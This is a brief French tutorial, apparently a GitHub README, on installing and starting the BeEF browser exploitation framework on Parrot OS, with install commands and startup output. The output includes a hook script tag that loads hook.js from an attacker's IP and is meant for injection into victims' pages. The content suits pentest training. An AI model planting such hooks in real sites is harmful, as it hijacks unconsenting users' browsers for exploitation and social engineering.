





# secu_02
Vulnérabilités sur les navigateurs web `BeEf`
* BeEf : Browser Exploitation Framework <a href="http://beefprojet.com">http://beefprojet.com</a>
* Outil de pentest basé client-side
* Technique similaire aux drive-by malware
* Accède directement à l'environnement du client
* Framework de social Engineering

## Installation complete de l'outil Beep
```terminal
sudo apt install beef*
```
Pour demarrer le programme
```terminal
sudo beef-xss
```
## Autre methode 

Lancez le script Beef.sh

```terminal
bash /emplacement/beef.sh
```
<hr>

## Utilisation
```terminal
sudo beef-xss
```
`resultats`
```terminal
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```
Definissez votre mot de passe

```terminal
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; vendor preset: enabled)
     Active: active (running) since Tue 2024-04-30 23:41:26 WAT; 5s ago
   Main PID: 120793 (ruby)
      Tasks: 1 (limit: 9306)
     Memory: 53.1M
        CPU: 2.092s
     CGroup: /system.slice/beef-xss.service
             └─120793 ruby /usr/share/beef-xss/beef

avril 30 23:41:26 parrotOS systemd[1]: Started beef-xss.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1... 
```
Cliquez sur `http://127.0.0.1:3000/ui/panel`



Apres validation



Ensuite ` basic demo page here,`



Verifier les exploits et actions en fonction de votre besoin 



